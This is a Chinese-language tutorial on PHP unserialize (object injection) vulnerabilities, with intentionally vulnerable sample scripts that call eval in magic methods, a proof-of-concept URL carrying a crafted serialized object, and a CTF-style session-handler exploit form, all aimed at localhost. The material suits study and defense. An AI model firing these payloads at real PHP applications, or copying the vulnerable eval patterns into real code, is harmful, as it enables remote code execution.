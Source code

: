 #php反序列化问题
>依稀记得去年java反序列化来的时候，真是风雨满楼啊，各种组件中招，今天在群里听到大菠萝批评‘java有反序列化问题，同理php等语言也会有这些问题’这种惯性思维不可取，并表示自己跟进去过java和php的序列化机制，发现两者并不相同，不得不感慨他这种专研的精神，赞一个，我就分析下php代码层的问题

#unserialize
这一方法在许多的编程语言中都有存在，其较大的方便了数组和对象的存储，但是利用不当可能会带来意想不到的危害 --[http://drops.wooyun.org/tips/3909?utm_source=tuicool&utm_medium=referral](http://drops.wooyun.org/tips/3909?utm_source=tuicool&utm_medium=referral)
* **0x00 最简单的利用就是利用它序列化的特性，来单纯的伪造数据**
* **0x01 反序列化的数据导致类里的魔法方法的执行**
	这种情况的有几种前提条件：
    1. 存在unserialize
    2. 类里存在以下的魔法方法
    ```php
    __construct(),__destruct()
    __call(),__callStatic()
    __get(),__set()
    __sleep(),__wakeup()
    __tostring(),__invoke()
    __set_state(),__clone(),__debugInfo()
    ```
    3. 魔法方法里写有危险的函数
    ```php
    #commad exe:
    exec();passthru();popen();system();eval()
    #file access
    file_put_contents();file_get_contents();unlink()
    ```
    **漏洞代码 index2.php**
    ```php
    <?php 
	class test{
		public $par="phpinfo()";
		function __destruct(){
			eval($this->par);
		}
	}
	unserialize($_GET['a']);
	?>
    ```
    **poc**
    ```url
    http://127.0.0.1/test/unserialize/index2.php?a=O:4:%22test%22:1:{s:3:%22par%22;s:7:%22echo%201;%22;}
    ```
    这样就会执行echo 1这个操作
* **0x02 session里的反序列化问题**
	1. php内置了多种处理器来序列化和反序列化存取seesion数据
处理器                         |对应的存储格式
------------------------------|-------------
php                           |键名 ＋ 竖线 ＋ 经过 serialize() 函数反序列处理的值
php_binary                    |键名的长度对应的 ASCII 字符 ＋ 键名 ＋ 经过 serialize() 函数反序列处理的值
php_serialize <br>(php>=5.5.4)|经过 serialize() 函数反序列处理的数组
这里的问题在于如果php.ini里的session.serialize_handler如果和脚本里的ini_set('session.serialize_handler', '')如果不同的话就会出现安全问题，如以php_serialize存入带有竖线的字符串，再以php反序列化的时候，就会解析出一个变量出来（ps：在php 5.6.13之前变量解析失败是会继续解析下一个变量的，而在这之后出现解析的错误，就会销毁sesseion）
	2. 这里可能会有疑惑，该怎么样去控制session呢，这里配置不当会导致session被控制，session.upload_progress.enabled被打开，且session.upload_progress.cleanup被关闭时，php会记录上传文件的进度，并且记录在session中! --[https://bugs.php.net/bug.php?id=71101](https://bugs.php.net/bug.php?id=71101)
	**一道ctf的题**
    **index3.php**
    ```php
    <?php
 
	ini_set('session.serialize_handler', 'php');
 
	require("./class.php");
 
	session_start();
 
	$obj = new foo1();
 
	$obj->varr = "phpinfo.php";
 
	?>
    ```
    **class.php**
    ```php
    <?php
	class foo1{
        public $varr;
        function __construct(){
                $this->varr = "index.php";
        }
        function __destruct(){
                if(file_exists($this->varr)){
                        echo "<br>文件".$this->varr."存在<br>";
                }
                echo "<br>这是foo1的析构函数<br>";
        }
	}

	class foo2{
        public $varr;
        public $obj;
        function __construct(){
                $this->varr = '1234567890';
                $this->obj = null;
        }
        function __toString(){
                $this->obj->execute();
                return $this->varr;
        }
        function __desctuct(){
                echo "<br>这是foo2的析构函数<br>";
        }
	}

	class foo3{
        public $varr;
        function execute(){
                eval($this->varr);
        }
        function __desctuct(){
                echo "<br>这是foo3的析构函数<br>";
        }
	}
	?>
    ```
    **利用post.html**
    ```html
    <form action="http://127.0.0.1/test/unserialize/index3.php?" method="POST" enctype="multipart/form-data">
	<input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
	<input type="file" name="file" />
	<input type="submit" />
	</form>
    ```
    因为我没有用5.6以前的版本，所以在用brupsuit抓包后，并没有达到利用的效果，但是在session文件中确实可以发现畸形的serialize字符串进入了session中